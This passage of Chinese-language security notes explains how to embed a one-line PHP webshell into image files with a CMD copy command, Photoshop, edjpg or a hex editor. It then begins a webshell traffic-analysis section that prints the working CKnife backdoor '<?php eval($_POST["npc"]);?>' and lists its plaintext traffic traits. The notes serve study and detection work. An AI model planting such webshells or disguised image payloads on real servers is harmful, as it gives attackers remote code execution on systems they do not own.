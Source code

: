 copy命令：

```
CMD命令：copy 1.jpg/b+1.php/a 2.jpg
```

PS软件：

```
PS打开图片，在文件—>文件简介里插入需要的木马代码，最后：文件—>保存【保存：覆盖原文件，也可以另存为其他格式】。
```

edjpg软件：

```
将图片直接拖到edjpg.exe上，在弹出窗口内输入一句话木马即可。
```

十六进制编辑器：

```
用010 Editor或winhex等十六进制编辑器打开图片，将一句话木马插入到右边最底层或最上层后保存。
```

## Webshell流量分析

### CKnife 菜刀

#### 基础代码

```php
# npc.php
<?php eval($_POST["npc"]);?>
```

#### 流量特征

- 明文传输。
- npc是php一句话木马的password。

![img](images/Webshell流量分析/202211091032518.png)
